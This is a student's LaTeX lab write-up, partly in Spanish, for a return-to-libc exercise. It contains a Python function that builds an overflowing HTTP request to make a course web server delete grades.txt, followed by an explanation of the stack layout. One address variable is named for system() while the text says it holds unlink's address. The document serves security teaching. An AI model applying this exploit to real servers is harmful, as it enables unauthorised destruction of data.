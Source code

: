 \documentclass[a4paper,12pt]{article}
\begin{document}
\section{Part 3: Return-to-libc attacks}

\subsection{Ejercicio 4:}

\textbf{Starting from your two exploits in Exercise 2, construct two exploits that take advantage of those vulnerabilities
to unlink /home/httpd/grades.txt when run on the binaries that have a non-executable stack.}

El primer exploit es el que sigue:

\begin{lstlisting}
system_dir = 0x40102450
path_dir = 0xbffff628

def build_exploit(shellcode):
    command = "/home/httpd/grades.txt"

    req =   "GET /"

    for i in range(0,2067):
        req = req + 'A'
    req = req + struct.pack("<I",system_dir)
    req = req + "SEXY"
    req = req + struct.pack("<I",path_dir)
    req = req + command

    req = req + " HTTP/1.0\r\n" + \
        "\r\n"
    return req
\end{lstlisting}

En la Figura \ref{fig:pila2} se muestra la distribución de la pila con el ataque. Como ya no tenemos shellcode, entonces tenemos
que aumentar 62 bytes más para llegar a la dirección de retorno. Si hacemos los cálculos con el ejercicio anterior (2005 + 62) nos
da un total de 2067 'A'. Luego se coloca la dirección de la función unlink y después se coloca la palabra ``SEXY''. Aquí
va la dirección de retorno de la función unlink, pero como a nosotros no nos importa ponemos cualquier cosa en esos cuatro bytes.
Luego se pone la dirección del string que queremos pasar a la función unlink. Y al final se pone el archivo que queremos eliminar.
\end{document}
